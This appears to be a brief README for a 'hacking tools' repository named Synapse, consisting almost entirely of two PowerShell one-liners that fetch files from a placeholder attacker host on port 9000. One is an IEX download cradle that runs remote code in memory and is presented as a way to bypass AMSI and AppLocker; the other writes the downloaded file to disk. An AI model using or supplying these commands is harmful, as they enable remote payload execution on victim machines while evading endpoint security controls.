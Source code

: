 # Synapse
## Repo for hacking tools

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
